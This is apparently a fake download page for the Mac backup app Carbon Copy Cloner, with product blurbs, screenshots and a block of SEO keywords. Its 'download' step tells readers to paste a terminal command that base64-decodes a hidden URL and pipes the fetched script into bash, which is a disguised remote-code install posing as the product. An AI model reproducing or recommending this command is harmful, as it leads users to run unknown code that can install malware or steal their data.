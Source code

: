# Carbon Copy Cloner for Mac Download - Backup Utility

![Carbon Copy Cloner Screenshot 1](https://www.tegakari.net/wp-content/uploads/2023/06/carbon_copy_cloner_img.jpg)

---

### 🔽 Download Carbon Copy Cloner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Carbon Copy Cloner for Mac?

Carbon Copy Cloner (CCC) is the most reliable backup solution for macOS, trusted by professionals worldwide for over two decades. Unlike basic backup tools, CCC provides comprehensive data protection through bootable backups and precise disk cloning.

Key features include:
- Creation of fully bootable backup drives
- Scheduled and incremental backups
- Block-level copying for maximum efficiency
- Full APFS volume support
- Advanced task automation
- Snapshot preservation
- Detailed recovery tools
- Email notifications

Carbon Copy Cloner stands out for its ability to create perfect replicas of macOS system drives that can be immediately booted in emergency situations. The application provides detailed logging and verification of all backup operations, ensuring absolute data integrity. Advanced users appreciate the granular control over every aspect of the backup process, while beginners benefit from intuitive wizards and presets.

Photographers, video editors, developers and IT professionals consistently choose CCC for its proven reliability and extensive feature set that goes far beyond Time Machine.

![Carbon Copy Cloner Screenshot 2](https://bombich.com/img/site/hero-narrow.jpg)

---

## Key Features & Benefits 🛡️

- 💽 Create bootable backup drives
- ⏰ Scheduled incremental backups
- 🔄 Block-level copying
- 📊 Detailed operation logs
- 🚨 Disaster recovery
- 📧 Email notifications
- 🖥 Full APFS support
- 🤖 Task automation

---

## Keywords

Carbon Copy Cloner for Mac, Carbon Copy Cloner Mac Download, Carbon Copy Cloner for Mac Download, Carbon Copy Cloner Mac, Carbon Copy Cloner Download Mac, Carbon Copy Cloner Download for Mac, Carbon Copy Cloner full version, Mac Download Carbon Copy Cloner, Download Mac Carbon Copy Cloner, Download Carbon Copy Cloner Mac, Download Carbon Copy Cloner for Mac
